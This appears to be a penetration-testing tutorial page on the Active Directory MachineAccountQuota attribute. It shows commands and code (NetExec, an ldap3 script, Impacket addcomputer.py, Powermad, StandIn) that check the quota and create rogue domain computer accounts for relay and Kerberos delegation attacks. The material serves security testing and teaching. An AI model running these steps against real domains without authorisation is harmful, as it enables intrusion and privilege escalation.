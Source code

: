 # MachineAccountQuota

## Theory

> MachineAccountQuota (MAQ) is a domain level attribute that by default permits unprivileged users to attach up to 10 computers to an Active Directory (AD) domain ([source](https://blog.netspi.com/machineaccountquota-is-useful-sometimes/))

## Practice

There are multiple ways attackers can leverage that power.

* [Force client authentications](../mitm-and-coerced-authentications/), [relay those authentications](../ntlm/relay.md) to domain controllers using LDAPS, and take advantage of authenticated sessions to create a domain computer account. This account can then be used as a foothold on the AD domain to operate authenticated recon (i.e. [with BloodHound](../../recon/bloodhound.md) for example)
* Create a computer account and use it for [Kerberos RBCD attacks](../kerberos/delegations/#resource-based-constrained-delegations-rbcd) when leveraging owned accounts with sufficient permissions (i.e. ACEs like `GenericAll`, `GenericWrite` or `WriteProperty`) against a target machine
* Create a computer account and use it for a [Kerberos Unconstrained Delegation](../kerberos/delegations/#unconstrained-delegations) attack when leveraging owned accounts with sufficient permissions (i.e. the `SeEnableDelegationPrivilege` user right)
* Profit from special rights that members of the Domain Computers group could inherit
* Profit from special rights that could automatically be applied to new domain computers based on their account name

### Check the value

{% tabs %}
{% tab title="UNIX-like" %}
The [MachineAccountQuota](https://github.com/ShutdownRepo/CrackMapExec-MachineAccountQuota) module (for [NetExec](https://github.com/Pennyw0rth/NetExec)) can be used to check the value of the MachineAccountQuota attribute.

```bash
nxc ldap $DOMAIN_CONTROLLER -d $DOMAIN -u $USER -p $PASSWORD -M maq
```

Alternatively, it can be done manually with the following Python code.

```bash
import ldap3

target_dn = "DC=domain,DC=local" # change this
domain = "domain" # change this
username = "username" # change this
password = "password" # change this

user = "{}\\{}".format(domain, username)
server = ldap3.Server(domain)
connection = ldap3.Connection(server = server, user = user, password = password, authentication = ldap3.NTLM)
connection.bind()
connection.search(target_dn,"(objectClass=*)", attributes=['ms-DS-MachineAccountQuota'])
print(connection.entries[0])
```
{% endtab %}

{% tab title="Windows" %}
In order to run the following commands and tools as other users, testers can check the [user impersonation](../credentials/impersonation.md) part.

The following command, using the [PowerShell ActiveDirectory module](https://docs.microsoft.com/en-us/powershell/module/addsadministration/?view=win10-ps)'s cmdlets Get-ADDomain and Get-ADObject, will help testers make sure the controlled domain user can create computer accounts (the MachineAccountQuota domain-level attribute needs to be set higher than 0. It is set to 10 by default).

```bash
Get-ADDomain | Select-Object -ExpandProperty DistinguishedName | Get-ADObject -Properties 'ms-DS-MachineAccountQuota'
```

FuzzSecurity's [StandIn](https://github.com/FuzzySecurity/StandIn) project is an alternative in C# (.NET assembly) to perform some AD post-compromise operations. Among the possible actions, the MAQ attribute can be requested ([source](https://github.com/FuzzySecurity/StandIn#create-machine-object)).

```powershell
StandIn.exe --object ms-DS-MachineAccountQuota=*
```
{% endtab %}
{% endtabs %}

### Create a computer account

{% tabs %}
{% tab title="UNIX-like" %}
The [Impacket](https://github.com/SecureAuthCorp/impacket) script [addcomputer](https://tools.thehacker.recipes/impacket/examples/addcomputer.py) (Python) can be used to create a computer account, using the credentials of a domain user the the `MachineAccountQuota` domain-level attribute is set higher than 0 (10 by default).

```bash
addcomputer.py -computer-name 'SomeName$' -computer-pass 'SomePassword' -dc-host "$DC_HOST" -domain-netbios "$DOMAIN" "$DOMAIN"/"$USER":"$PASSWORD"
```

Testers can also use [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) instead with the `--add-computer` option, like [this](https://arkanoidctf.medium.com/hackthebox-writeup-forest-4db0de793f96)

{% hint style="info" %}
When using [Impacket](https://github.com/SecureAuthCorp/impacket)'s addcomputer script for the creation of a computer account, the "SAMR" method is used by default (instead of the LDAPS one). At the time of writing (10th of December, 2021), the SAMR method creates the account without SPNs. In this case, they could be added later on with [addspn.py](https://github.com/dirkjanm/krbrelayx) (Python). By default, computer accounts have the following SPNs set:

```
KrbRestrictedHost/hostname
KrbRestrictedHost/hostname.domain_fqdn
Host/hostname
Host/hostname.domain_fqdn
```
{% endhint %}
{% endtab %}

{% tab title="Windows" %}
The [Powermad](https://github.com/Kevin-Robertson/Powermad) module (PowerShell) can be used to create a domain computer account.

```bash
$password = ConvertTo-SecureString 'SomePassword' -AsPlainText -Force
New-MachineAccount -MachineAccount 'PENTEST01' -Password $($password) -Verbose
```

While the machine account can only be deleted by domian administrators, it can be deactivated by the creator account with the following command using the Powermad module.

```bash
Disable-MachineAccount -MachineAccount 'PENTEST01' -Verbose
```

An alternative is to use FuzzSecurity's [StandIn](https://github.com/FuzzySecurity/StandIn) (C#, .NET assembly) project to create a new password account with a random password, disable the account, or delete it (with elevated privileges):

```powershell
# Create the account
StandIn.exe --computer 'PENTEST01' --make

# Disable the account
StandIn.exe --computer 'PENTEST01' --disable

# Delete the account (requires elevated rights)
StandIn.exe --computer 'PENTEST01' --delete
```
{% endtab %}
{% endtabs %}

{% hint style="info" %}
Testers need to be aware that the MAQ attribute set to a non-zero value doesn't necessarily mean the users can create machine accounts. The right to add workstations to a domain can in fact be changed in the Group Policies. `Group Policy Management Console (gpmc.msc) > Domain Controllers OU > Domain Controllers Policy > Computer Configuration > Policies > Windows Settings > Security Settings > Local Policies > User Rights Assigments > Add workstations to domain`
{% endhint %}

## Resources

{% embed url="https://blog.netspi.com/machineaccountquota-is-useful-sometimes/" %}

{% embed url="https://www.harmj0y.net/blog/activedirectory/the-most-dangerous-user-right-you-probably-have-never-heard-of/" %}

{% embed url="https://social.technet.microsoft.com/wiki/contents/articles/5446.active-directory-how-to-prevent-authenticated-users-from-joining-workstations-to-a-domain.aspx" %}
